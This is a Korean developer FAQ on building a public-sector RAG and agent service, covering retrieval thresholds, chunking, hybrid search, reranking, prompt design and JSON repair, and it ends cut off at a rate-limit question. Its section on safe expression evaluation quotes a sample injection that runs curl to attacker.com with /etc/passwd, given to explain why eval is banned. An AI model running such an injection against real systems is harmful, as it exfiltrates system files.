


# AI 개발 고급 FAQ

> **대상**: AI 기능을 개발하는 백엔드·풀스택 개발자
> **수준**: 중급~고급 (기본 AI 개발 경험 필요)
> **관련 파일**:
> - `platform/services/ai-service/src/lib/rag-engine.ts`
> - `platform/services/ai-service/src/lib/ai-tools.ts`
> - `platform/services/ai-service/src/lib/chunker.ts`
> **CSAP**: D-12 시스템개발보안, N2SF N-05 데이터등급

---

## FAQ 카테고리 맵



---

## 카테고리 A: RAG 최적화 FAQ

### A-1. minScore 0.25는 어떤 기준으로 설정된 값인가요?

**짧은 답변**: 공공 문서의 특성과 실험적 튜닝의 결과로 0.25가 최적값으로 결정되었습니다.

**상세 설명:**

`rag-engine.ts`의 `runRAG` 함수에서 `minScore = 0.25`는 기본값으로 설정되어 있습니다.

```typescript
// rag-engine.ts 87줄
const { topK = 5, minScore = 0.25, maxContextTokens = 6000, systemPrompt } = options;
```

코사인 유사도 점수의 의미:
- `1.0`: 완전히 동일한 벡터 (동일 텍스트)
- `0.9+`: 매우 높은 유사성 (거의 동일한 의미)
- `0.7~0.9`: 높은 유사성 (관련 주제)
- `0.4~0.7`: 중간 유사성 (부분적으로 관련)
- `0.25~0.4`: 낮은 유사성 (느슨하게 관련)
- `0.25 미만`: 거의 무관 (잡음으로 판단)

**공공 문서에서 0.25가 적합한 이유:**

공공기관 문서는 특수 용어, 법령 번호, 행정 약어를 많이 사용합니다. 예를 들어 "정보통신망법 제45조의3"을 질문에서 "개인정보보호법"으로 표현할 수 있습니다. 두 문서가 연관되어 있지만 코사인 유사도는 낮게 나올 수 있습니다.

임계값이 너무 높으면 (예: 0.7):
- 관련 문서가 검색에서 제외됩니다
- "문서를 찾을 수 없습니다" 응답이 자주 발생합니다

임계값이 너무 낮으면 (예: 0.1):
- 무관한 문서가 컨텍스트에 포함됩니다
- LLM이 잡음 정보로 혼란스러운 답변을 생성합니다

**실전 튜닝 방법:**

```typescript
// 테넌트별 minScore 조정 (전문 분야에 따라)
const minScoreMap: Record<string, number> = {
  'legal-domain':    0.35, // 법령 문서: 정밀도 우선
  'general-service': 0.25, // 일반 민원: 재현율 균형
  'technical-doc':   0.30, // 기술 문서: 중간
};

const minScore = minScoreMap[tenantType] ?? 0.25;
```

`routes.ts` 124줄에서도 동일한 기본값이 API 스키마에 명시됩니다:
```typescript
minScore: { type: 'number', minimum: 0, maximum: 1, default: 0.25 },
```

---

### A-2. 청킹 크기(512토큰)는 어떻게 결정해야 하나요?

**짧은 답변**: 문서 유형과 질문 패턴에 따라 256~1024토큰 범위에서 실험적으로 결정합니다. 계층적 청킹으로 두 크기를 모두 활용하는 것이 최선입니다.

**상세 설명:**

`chunker.ts`의 기본 청킹 크기는 512토큰입니다.

```typescript
// chunker.ts 20줄
export function chunkText(text: string, maxTokens = 512, overlapTokens = 50): TextChunk[]
```

한국어의 경우 토큰 추정이 중요합니다:

```typescript
// chunker.ts 21줄
const maxChars = maxTokens * 2; // 한국어 기준 토큰당 약 2자
```

영어는 BPE 토크나이저에서 1토큰 ≈ 4자이지만, 한국어는 1토큰 ≈ 2자로 추정합니다. 이는 한국어가 공백 단위가 아닌 음절/형태소 단위로 토크나이징되기 때문입니다.

**청킹 크기별 트레이드오프:**

| 청킹 크기 | 장점 | 단점 | 적합한 문서 |
|---------|------|------|-----------|
| 128토큰 | 정밀한 검색 | 컨텍스트 부족 | 용어사전, 법령 조문 |
| 256토큰 | 균형 | - | 보도자료, 공문 |
| 512토큰 | 기본 균형 | - | 일반 행정 문서 |
| 1024토큰 | 풍부한 컨텍스트 | 검색 정밀도 저하 | 보고서, 연구서 |

**계층적 청킹으로 해결하기:**

`chunker.ts`의 `hierarchicalChunk` 함수는 두 크기를 동시에 활용합니다.

```typescript
// chunker.ts 133~170줄
export function hierarchicalChunk(
  text: string,
  parentMaxTokens = 1024,  // 부모 청크: 컨텍스트용
  childMaxTokens = 256,    // 자식 청크: 검색용
): HierarchicalChunk[]
```

동작 원리:
```
원본 문서 (10,000자)
  ↓ 부모 청킹 (1024토큰, 10% 오버랩)
부모 청크 1 (1024토큰) → 자식 청크 1-1 (256토큰)
                       → 자식 청크 1-2 (256토큰)
                       → 자식 청크 1-3 (256토큰)
                       → 자식 청크 1-4 (256토큰)
부모 청크 2 (1024토큰) → 자식 청크 2-1 (256토큰)
                       ...

검색 시: 자식 청크(256토큰)로 정밀 매칭
답변 시: 부모 청크(1024토큰) 전체를 컨텍스트로 사용
```

```typescript
// 계층적 청킹 활용 예시
const hierarchical = hierarchicalChunk(documentContent);
const childToParent = buildChildToParentMap(hierarchical);

// 검색: 자식 청크 ID로 부모 청크 조회
const childChunkId = searchResult.chunkId;
const parentChunk = childToParentMap.get(childChunkId);
// parentChunk를 LLM 컨텍스트로 전달 (더 풍부한 정보)
```

---

### A-3. 하이브리드 검색에서 BM25 가중치 0.4는 어떤 의미인가요?

**짧은 답변**: BM25(키워드) 40% + 시맨틱(벡터) 60%의 혼합 비율입니다. 공공 문서의 용어 정밀성과 의미적 유사성을 균형 있게 반영하는 실험값입니다.

**상세 설명:**

`rag-engine.ts`의 `runAdvancedRAG`에서 기본값으로 설정됩니다.

```typescript
// rag-engine.ts 187줄
bm25Weight = 0.4,
// → semanticWeight = 1 - 0.4 = 0.6
```

**BM25와 시맨틱 검색의 차이:**

```
BM25 (키워드 검색):
  장점: 정확한 용어 매칭 (법령 번호, 고유명사)
  단점: 동의어, 바꿔쓰기 놓침
  예시: "정보통신망법 제45조" → 해당 조문 정확히 찾기

시맨틱 검색 (벡터 유사도):
  장점: 의미적 유사성 (유사한 개념 찾기)
  단점: 정확한 용어 매칭 약함
  예시: "개인정보 보호 규정" → 관련 법령 전반 찾기
```

**가중치 조정 가이드:**

```typescript
// 검색 모드에 따른 가중치 조정 (rag-engine.ts 220~223줄)
bm25Weight: searchMode === 'keyword' ? 0.9 : bm25Weight,
semanticWeight: searchMode === 'keyword' ? 0.1 : (1 - bm25Weight),
```

| 검색 모드 | BM25 | 시맨틱 | 적합한 상황 |
|---------|------|-------|-----------|
| `keyword` | 0.9 | 0.1 | 정확한 용어 검색 (법령 번호) |
| `hybrid` | 0.4 | 0.6 | 일반 질의 (기본 권장) |
| `semantic` | 0.0 | 1.0 | 개념적 질의 ("환경 관련 법령") |

**RRF(Reciprocal Rank Fusion) 융합:**

BM25 결과와 시맨틱 결과를 단순 합산하면 점수 스케일이 달라 편향됩니다. RRF는 순위 기반으로 융합합니다.

```
BM25 순위: [doc1, doc3, doc2, doc5, doc4]
시맨틱 순위: [doc2, doc1, doc4, doc3, doc5]

RRF 점수 = Σ 1/(k + rank)  (k=60 권장)

doc1: 1/(60+1) + 1/(60+2) = 0.01639 + 0.01613 = 0.03252 ← 1위
doc2: 1/(60+3) + 1/(60+1) = 0.01587 + 0.01639 = 0.03226 ← 2위
...
```

---

### A-4. Reranking은 언제 활성화해야 하나요?

**짧은 답변**: 답변 품질이 중요하고 응답 시간에 여유가 있을 때 활성화합니다. 기본값은 `enableReranking: true`입니다.

**상세 설명:**

```typescript
// rag-engine.ts 234~244줄
if (enableReranking && hybridResults.length > 0) {
  const reranked: RerankResult[] = await rerankResults(
    question,
    hybridResults,
    {
      candidateCount: Math.min(20, hybridResults.length),  // 최대 20개 후보
      returnCount: topK,                                    // topK개 반환
      minRelevance: 3,                                      // 관련도 3/10 이상
      enableCompression,
    },
  );
```

**Reranking 전후 비교:**

```
하이브리드 검색 결과 (상위 20개):
  순위 1: doc_A (RRF 0.035) ← 텍스트 유사도 높음
  순위 2: doc_B (RRF 0.031)
  순위 3: doc_C (RRF 0.028) ← 실제로 가장 관련성 높음
  ...

LLM Reranking 후:
  순위 1: doc_C (관련도 9/10) ← LLM이 의미 파악
  순위 2: doc_A (관련도 7/10)
  순위 3: doc_B (관련도 6/10)
```

Reranking은 LLM이 "이 문서가 질문에 얼마나 관련 있는가?"를 0~10점으로 평가합니다. 이 과정에서 추가 LLM 호출이 발생하므로 응답 시간이 1~3초 추가됩니다.

**활성화 권장 시나리오:**
- 법령 해석, 정책 문의 등 정확성이 중요한 경우
- 배치 처리, 비동기 응답이 가능한 경우
- 관련 문서가 많아 초기 검색 품질이 낮은 경우

**비활성화 권장 시나리오:**
- 실시간 챗봇 (응답 시간 < 2초 목표)
- 간단한 FAQ 응답
- 관련 문서가 적고 검색 품질이 이미 좋은 경우

---

### A-5. 쿼리 확장(Query Expansion)은 어떤 효과가 있나요?

**짧은 답변**: LLM이 원래 질문을 여러 관점에서 재작성하여 더 많은 관련 문서를 검색합니다. 기본값은 `false`이며 비용이 추가됩니다.

**상세 설명:**

```typescript
// rag-engine.ts 200~206줄
if (enableQueryExpansion) {
  queryExpansion = await expandQuery(question);
  effectiveQueries = queryExpansion.variants;
}
```

**동작 예시:**

```
원래 질문: "민원 처리 기간이 얼마나 되나요?"

확장된 질문 변형들:
1. "민원 처리 기간이 얼마나 되나요?"
2. "민원 처리에 소요되는 법정 기한은?"
3. "행정기관의 민원 응답 기간 규정"
4. "민원사무처리에 관한 법률 기간 조항"
5. "민원 처리 지연 시 불이익"
```

각 변형으로 별도 검색 후 결과를 통합합니다. 검색 재현율(recall)이 크게 향상되지만 LLM 추가 호출(쿼리 생성) + 다중 검색으로 비용과 시간이 증가합니다.

---

### A-6. 오버랩(overlap) 토큰은 왜 필요한가요?

**짧은 답변**: 청크 경계에서 중요한 정보가 잘리지 않도록 이전 청크의 끝 부분을 다음 청크 시작에 포함시킵니다.

**상세 설명:**

```typescript
// chunker.ts 44~47줄
// 오버랩: 이전 청크 끝 부분 유지
const overlapText = currentChunk.slice(-overlapChars);
startChar = startChar + currentChunk.length - overlapChars;
currentChunk = overlapText + '\n\n';
```

**오버랩 없을 때의 문제:**

```
문서 내용:
"...3항에 따라 처리 기간은 7일 이내입니다.
단, 특별한 사유가 있는 경우 최대 10일까지 연장 가능합니다..."

청크 1 끝: "...처리 기간은 7일 이내입니다."
청크 2 시작: "단, 특별한 사유가 있는 경우..."

질문: "처리 기간 연장은 몇 일인가요?"
→ 청크 2는 "7일 이내"라는 기본값을 모름
→ "최대 10일까지 연장 가능하다"는 것만 알아 불완전한 답변
```

오버랩 50토큰(100자)으로 이전 청크 끝 100자가 다음 청크 시작에 포함됩니다. 문맥이 연결됩니다.

계층적 청킹에서는 10% 오버랩을 사용합니다:

```typescript
// chunker.ts 139~140줄
const parentOverlap = Math.floor(parentMaxTokens * 0.1); // 부모: 102토큰
const childOverlap  = Math.floor(childMaxTokens  * 0.1); // 자식: 25토큰
```

---

### A-7. 임베딩 모델은 어떤 기준으로 선택하나요?

**짧은 답변**: 한국어 지원 여부가 가장 중요합니다. 현재 프로젝트는 `text-embedding-qwen3`와 `nomic-embed`를 지원합니다.

**상세 설명:**

```typescript
// routes.ts 222줄 (임베딩 라우트 설명)
'텍스트 임베딩 벡터 생성 (text-embedding-qwen3, nomic-embed 등)'

// rag-engine.ts 371~376줄
const embedModel = await prisma.aiModel.findFirst({
  where: { isActive: true, name: { contains: 'embed' } },
});
```

**임베딩 모델 선택 기준:**

| 기준 | 설명 | 확인 방법 |
|------|------|---------|
| 한국어 지원 | 한국어 문서 임베딩 품질 | KLUE-STS 벤치마크 |
| 벡터 차원 | 768 또는 1536차원 | 모델 문서 확인 |
| 최대 입력 길이 | 512 또는 8192토큰 | 청킹 전략에 영향 |
| 추론 속도 | GPU 없이도 실시간? | 로컬 테스트 |

**로컬 임베딩 서버 (LM Studio / Ollama):**

```bash
# Ollama로 nomic-embed 실행
ollama pull nomic-embed-text

# LM Studio로 qwen3 임베딩 실행
# UI에서 text-embedding-qwen3 모델 로드
```

---

### A-8. RAG 벡터 DB에 너무 많은 문서가 쌓이면 어떻게 관리하나요?

**짧은 답변**: 테넌트 격리, 문서 만료 정책, 주기적 재색인화 세 가지로 관리합니다.

**상세 설명:**

```typescript
// rag-engine.ts 90줄 — 테넌트 격리 검색
const searchResults = await semanticSearch(queryEmbedding, tenantId, topK, minScore);
```

모든 벡터 검색에 `tenantId`를 필터로 사용하여 테넌트간 데이터 격리를 보장합니다.

**문서 관리 전략:**

```typescript
// 문서 만료 관리 예시
async function pruneExpiredDocuments(tenantId: string): Promise<void> {
  const retentionDays = tenantConfig.dataRetentionDays ?? 365;
  const cutoffDate = new Date();
  cutoffDate.setDate(cutoffDate.getDate() - retentionDays);

  // DB에서 만료 문서 조회
  const expiredDocs = await prisma.ragDocument.findMany({
    where: {
      tenantId,
      createdAt: { lt: cutoffDate },
    },
  });

  // 벡터 DB에서도 삭제
  for (const doc of expiredDocs) {
    await vectorStore.deleteByDocumentId(doc.id);
    await prisma.ragDocument.delete({ where: { id: doc.id } });
  }
}
```

---

### A-9. RAG 답변에 "문서를 찾을 수 없습니다"가 자주 나오면 무엇을 확인해야 하나요?

**짧은 답변**: 4단계로 순서대로 점검합니다: 임베딩 모델 → 검색 임계값 → 문서 수집 상태 → 청킹 전략.

**상세 설명:**

```typescript
// rag-engine.ts 113~121줄
// 검색 결과가 없는 경우
if (contextText.length === 0) {
  return {
    answer: '죄송합니다. 해당 질문에 관련된 문서를 찾을 수 없습니다. 더 구체적인 질문을 해주세요.',
    sources: [],
    model: 'rag-no-context',
    tokensUsed: 0,
    contextChunks: 0,
  };
}
```

**점검 순서:**

```
1단계: 임베딩 모델 확인
  → 수집 시와 검색 시 동일한 임베딩 모델을 사용하는가?
  → 서로 다른 모델로 생성한 벡터는 비교 불가

2단계: minScore 임계값 확인
  → minScore를 0.1~0.15로 낮춰서 테스트
  → 결과가 나오면 임계값이 너무 높은 것

3단계: 문서 수집 상태 확인
  → /ai/rag/ingest로 문서가 제대로 수집되었는가?
  → 동일 tenantId로 수집/검색하는가?

4단계: 청킹 전략 검토
  → 청크가 너무 작아서 의미 있는 내용이 분산된 건 아닌가?
  → 오버랩이 충분한가?
```

---

## 카테고리 B: 프롬프트 엔지니어링 FAQ

### B-1. safeEvaluate() 함수는 왜 eval 대신 파서를 사용하나요?

**짧은 답변**: CSAP D-12 요건과 OWASP A03:2021(인젝션) 방지를 위해 eval/Function 생성자 사용이 금지되어 있습니다. 직접 구현한 파서가 안전합니다.

**상세 설명:**

`ai-tools.ts`의 `calculate` 도구는 사용자가 계산식을 입력하면 실행합니다. 이는 코드 인젝션 공격의 전형적인 진입점입니다.

```typescript
// ai-tools.ts 128~141줄
calculate: async (params): Promise<ToolCallResult> => {
  const expression = String(params['expression'] ?? '');

  // CSAP D-12: 안전한 수학 표현식만 허용
  // 정규식으로 허용 문자 사전 필터링
  if (!/^[\d\s+\-*/().,]+$/.test(expression)) {
    return { success: false, output: '', error: '허용되지 않는 계산식입니다.' };
  }

  try {
    const result = safeEvaluate(expression);
    if (result === null) {
      return { success: false, output: '', error: '유효하지 않은 수식입니다' };
    }
    return { success: true, output: String(result) };
  } catch {
    return { success: false, output: '', error: '계산 실패' };
  }
},
```

**왜 eval이 위험한가:**

```javascript
// 공격 시나리오 (eval 사용 시)
const expression = '1+1; require("child_process").exec("curl attacker.com/exfil?data=$(cat /etc/passwd)")';
eval(expression);  // 공격 성공: 시스템 명령 실행
```

**safeEvaluate의 재귀 하강 파서:**

```typescript
// ai-tools.ts 201~308줄 — 파서 구조
// expression = term (('+' | '-') term)*
// term = factor (('*' | '/') factor)*
// factor = '(' expression ')' | number | unary

function safeEvaluate(expression: string): number | null {
  // 1. 토큰화: 숫자, 연산자, 괄호만 허용
  const tokens: string[] = [];
  // 허용 문자 아닌 경우 null 반환

  // 2. 재귀 하강 파싱
  // parseExpression → parseTerm → parseFactor
  // eval이나 Function 생성자 없음 → 코드 실행 불가
  // 0 나누기 방지: if (right === 0) return null;
  // NaN/Infinity 방지: if (!isFinite(result)) return null;
}
```

**safeEvaluate 확장 패턴 — 공공기관 예산 계산기:**

```typescript
// safeEvaluate를 확장하여 공공기관 전용 계산 지원
function budgetSafeEvaluate(expression: string): number | null {
  // "1억" → 100000000, "만원" → 10000 등 변환 후 계산
  const normalized = expression
    .replace(/(\d+)억원?/g, (_, n) => String(parseInt(n) * 100_000_000))
    .replace(/(\d+)천만원?/g, (_, n) => String(parseInt(n) * 10_000_000))
    .replace(/(\d+)만원?/g, (_, n) => String(parseInt(n) * 10_000))
    .replace(/원/g, '');

  // 기존 safeEvaluate로 처리
  return safeEvaluate(normalized);
}

// 사용 예: "3억원 + 2천만원" → safeEvaluate("300000000 + 20000000") → 320000000
```

---

### B-2. ReAct 에이전트의 시스템 프롬프트는 어떻게 설계해야 하나요?

**짧은 답변**: Thought(사고)→Action(행동)→Observation(관찰) 루프를 명확하게 지시하고, 공공기관 맥락과 할루시네이션 방지 지시를 포함해야 합니다.

**상세 설명:**

ReAct 패턴에서 LLM은 다음 형식으로 응답해야 합니다:

```
Thought: 질문을 분석하면 현재 날짜와 관련된 정보가 필요합니다.
Action: current_datetime({})
Observation: 2026년 04월 13일 (월) 오전 10시 30분

Thought: 날짜를 확인했습니다. 이제 최종 답변을 작성할 수 있습니다.
Answer: 현재 날짜는 2026년 4월 13일 월요일입니다.
```

**공공기관용 ReAct 시스템 프롬프트 설계:**

```typescript
const PUBLIC_AGENCY_REACT_PROMPT = `당신은 공공기관 AI 어시스턴트입니다.

**역할**: 공공 행정 업무를 지원하는 AI입니다.
**규칙**:
1. 모든 응답은 한국어로 작성합니다.
2. 확실하지 않은 정보는 "확인이 필요합니다"라고 말합니다.
3. 개인정보(주민등록번호, 전화번호 등)는 절대 수집하거나 반복하지 않습니다.

**사용 가능한 도구**:
{tools_description}

**응답 형식** (엄격히 준수):
Thought: [현재 상황을 분석하고 다음 단계를 계획합니다]
Action: 도구_이름({"매개변수": "값"})
Observation: [도구 실행 결과]
... (반복)
Answer: [최종 답변]

**도구 호출 금지 상황**:
- 현재 Observation에서 충분한 정보를 얻은 경우
- 최대 {max_iterations}회 반복에 도달한 경우

질문: {query}`;
```

---

### B-3. LLM 온도(temperature) 설정은 어떻게 결정하나요?

**짧은 답변**: 창의성이 필요한 작업은 높게(0.7~0.9), 사실 기반 응답은 낮게(0.0~0.3) 설정합니다.

**상세 설명:**

`ai-agent.handler.ts`에서 작업별로 다른 temperature를 사용합니다.

```typescript
// ai-agent.handler.ts 82~85줄 — 요약 작업
const resp = await provider.chat(
  [{ role: 'user', content: `다음 텍스트를 3줄로 요약해주세요:\n\n${text}` }],
  { maxTokens: 512, temperature: 0.3 },  // 낮은 온도: 일관된 요약
);

// ai-agent.handler.ts 93~100줄 — 분류 작업
const resp = await provider.chat(
  [...],
  { maxTokens: 256, temperature: 0.1 },  // 매우 낮은 온도: JSON 형식 강제
);
```

**온도별 적합한 작업:**

| Temperature | 특성 | 적합한 작업 |
|------------|------|-----------|
| 0.0~0.1 | 결정적, 반복 가능 | JSON 구조화, 분류, 코드 생성 |
| 0.2~0.4 | 안정적, 약간의 변화 | 요약, 번역, 보고서 |
| 0.5~0.7 | 균형 | 일반 Q&A, 설명 |
| 0.7~0.9 | 창의적 | 아이디어 생성, 브레인스토밍 |
| 1.0 이상 | 무작위 | 사용하지 않음 (공공 서비스) |

공공기관 서비스에서는 대부분 0.1~0.4 범위를 사용합니다. 높은 temperature는 "hallucination"(존재하지 않는 법령 번호나 통계를 생성)할 위험이 있습니다.

---

### B-4. 구조화 출력(Structured Output)에서 JSON이 제대로 파싱되지 않을 때 어떻게 디버깅하나요?

**짧은 답변**: 4단계로 접근합니다: 프롬프트 명확화 → JSON 수리 함수 → 재시도 로직 → 폴백 응답.

**상세 설명:**

LLM이 JSON을 잘못 생성하는 패턴들:

```
1. 설명 텍스트 포함:
   "다음은 분류 결과입니다: {\"category\": \"교통\"}"
   → 앞의 텍스트 제거 필요

2. 코드 블록 포함:
   "```json\n{\"category\": \"교통\"}\n```"
   → 코드 블록 마커 제거

3. 불완전한 JSON:
   "{\"category\": \"교통\", \"priority\":"
   → 타임아웃 또는 maxTokens 부족

4. 단/쌍 따옴표 혼용:
   "{'category': '교통'}"
   → 따옴표 변환
```

**JSON 수리 함수:**

```typescript
function repairJSON(text: string): unknown {
  // 1. 코드 블록 제거
  let cleaned = text
    .replace(/```json\n?/g, '')
    .replace(/```\n?/g, '')
    .trim();

  // 2. 첫 번째 { 또는 [ 에서 시작하도록 추출
  const startIdx = Math.min(
    cleaned.indexOf('{') === -1 ? Infinity : cleaned.indexOf('{'),
    cleaned.indexOf('[') === -1 ? Infinity : cleaned.indexOf('['),
  );
  if (startIdx < Infinity) {
    cleaned = cleaned.slice(startIdx);
  }

  // 3. 마지막 } 또는 ] 에서 끝나도록 추출
  const endIdx = Math.max(
    cleaned.lastIndexOf('}'),
    cleaned.lastIndexOf(']'),
  );
  if (endIdx !== -1) {
    cleaned = cleaned.slice(0, endIdx + 1);
  }

  try {
    return JSON.parse(cleaned);
  } catch {
    // 4. 불완전한 경우 기본값 반환
    return { error: 'parse_failed', raw: text.slice(0, 200) };
  }
}
```

---

### B-5. Few-shot 예시는 몇 개를 포함하는 것이 좋나요?

**짧은 답변**: 2~5개가 최적입니다. 예시가 많을수록 토큰을 소비하고 성능 향상이 로그 함수적으로 감소합니다.

**상세 설명:**

Few-shot 예시는 LLM에게 "이런 형식으로 답하세요"를 보여주는 역할입니다.

```typescript
// 공공 민원 분류 few-shot 예시
const CLASSIFY_FEW_SHOT_PROMPT = `
다음 민원을 분류하세요. JSON 형식으로만 응답하세요.

예시 1:
입력: "우리 동네 가로등이 고장났습니다"
출력: {"category": "시설물관리", "priority": "보통", "requiresHuman": false}

예시 2:
입력: "복지수당을 신청하고 싶은데 조건이 어떻게 되나요"
출력: {"category": "복지행정", "priority": "보통", "requiresHuman": false}

예시 3:
입력: "옆 집에서 밤마다 소음이 심해서 잠을 못 자겠습니다"
출력: {"category": "생활불편", "priority": "높음", "requiresHuman": true}

이제 다음을 분류하세요:
입력: {user_input}
출력:`;
```

3개 예시가 zero-shot 대비 분류 정확도를 15~25% 향상시킵니다. 10개 이상부터는 개선 효과가 미미합니다.

---

### B-6. 한국어 응답 품질을 높이는 시스템 프롬프트 패턴은?

**짧은 답변**: 명확한 역할 정의, 공문서 스타일 지시, 한국어 특성을 반영한 종결어미 지시를 포함합니다.

**상세 설명:**

`rag-engine.ts`의 기본 시스템 프롬프트를 분석합니다.

```typescript
// rag-engine.ts 71~75줄
const DEFAULT_SYSTEM_PROMPT = `당신은 공공기관 문서 전문 AI 어시스턴트입니다.
반드시 제공된 문서 컨텍스트에 근거하여 답변하세요.
문서에 없는 내용은 "제공된 문서에서 찾을 수 없습니다"라고 정직하게 답하세요.
답변은 한국어로, 공공기관 공문서 스타일로 작성하세요.
각 주장에는 [출처: 문서명] 형식으로 근거를 명시하세요.`;
```

이 프롬프트의 핵심 요소:
1. **역할 정의**: "공공기관 문서 전문 AI 어시스턴트"
2. **근거 제약**: "제공된 문서 컨텍스트에 근거하여" (할루시네이션 방지)
3. **정직성**: "찾을 수 없습니다" 허용 (오답 생성 방지)
4. **스타일**: "공공기관 공문서 스타일" (격식체)
5. **인용 형식**: "[출처: 문서명]" (검증 가능성)

**확장 패턴 — 부서별 특화:**

```typescript
function buildTenantSystemPrompt(tenantType: string, orgName: string): string {
  const basePrompt = DEFAULT_SYSTEM_PROMPT;

  const tenantExtensions: Record<string, string> = {
    'legal':    `\n법령 조문 인용 시 "제X조제X항" 형식을 사용하세요.`,
    'welfare':  `\n수급 자격 관련 답변은 반드시 자격 조건을 명시하세요.`,
    'finance':  `\n예산 및 회계 관련 용어는 국가재정법 기준으로 사용하세요.`,
  };

  const extension = tenantExtensions[tenantType] ?? '';
  return `${basePrompt}${extension}\n\n기관명: ${orgName}`;
}
```

---

### B-7. 민원 분류기의 "JSON 형식으로만 응답하세요" 지시가 항상 동작하나요?

**짧은 답변**: 항상 동작하지는 않습니다. JSON 파싱 실패에 대비한 폴백 로직이 필수입니다.

**상세 설명:**

```typescript
// ai-agent.handler.ts 91~102줄
llmClassify: async (text: string) => {
  const resp = await provider.chat(
    [
      { role: 'system', content: '민원 분류 전문가입니다. JSON 형식으로만 응답하세요.' },
      { role: 'user', content: `다음 민원을 분류하세요 (JSON: {category, priority, requiresHuman}): ${text.slice(0, 2000)}` },
    ],
    { maxTokens: 256, temperature: 0.1 },
  );
  return resp.text;
},
```

폴백이 없는 현재 구현에 문제가 생길 수 있는 경우:
- 모델이 "네, 다음과 같이 분류합니다: {...}" 형식으로 응답
- 모델이 대화체로 응답

**강화된 분류기 패턴:**

```typescript
async function classifyWithFallback(text: string, provider: LLMProvider): Promise<ClassificationResult> {
  const resp = await provider.chat([
    { role: 'system', content: '민원 분류 전문가입니다. JSON 형식으로만 응답하세요.' },
    { role: 'user', content: `분류하세요: ${text}\n반드시 다음 형식만 사용: {"category":"분류명","priority":"높음|보통|낮음","requiresHuman":true|false}` },
  ], { maxTokens: 256, temperature: 0.1 });

  // JSON 파싱 시도
  try {
    const parsed = repairJSON(resp.text);
    if (isValidClassification(parsed)) {
      return parsed as ClassificationResult;
    }
  } catch { /* 파싱 실패 시 폴백 */ }

  // 폴백: 키워드 기반 분류 (ai-tools.ts의 detectCategory)
  return {
    category: detectCategory(text),
    priority: '보통',
    requiresHuman: true,  // 불확실한 경우 사람이 확인
  };
}
```

---

### B-8. 긴 문서 분석 시 컨텍스트 윈도우를 어떻게 관리하나요?

**짧은 답변**: maxContextTokens 6000 설정으로 자동 조절되며, 토큰 예산 초과 시 자동 잘림이 발생합니다. 계층적 청킹이 대안입니다.

**상세 설명:**

```typescript
// rag-engine.ts 87줄, 97~99줄
const { maxContextTokens = 6000 } = options;

for (const result of searchResults) {
  const chunkTokens = result.chunk.tokenCount;
  if (totalContextTokens + chunkTokens > maxContextTokens) break;  // 초과 시 중단
```

**왜 6000토큰인가:**

대부분의 LLM은 4096~32768 토큰 컨텍스트를 지원합니다. 전체 컨텍스트 중:
- 시스템 프롬프트: ~500 토큰
- 검색된 문서: ~6000 토큰 (설정값)
- 질문: ~100~200 토큰
- 답변 예비: ~2048 토큰
- 합계: ~8748 토큰 (8K 모델에서 안전)

16K 이상 컨텍스트 모델을 사용한다면 `maxContextTokens: 12000`으로 늘릴 수 있습니다.

```typescript
// 대용량 문서 처리 시 maxContextTokens 상향
const response = await runAdvancedRAG(tenantId, question, embedding, {
  maxContextTokens: 12000,  // 16K 모델 사용 시
  enableCompression: true,  // 컨텍스트 압축으로 공간 확보
});
```

---

## 카테고리 C: AI 비용 및 성능 FAQ

### C-1. 에이전트 Rate Limit이 분당 5회로 제한된 이유는 무엇인가요?

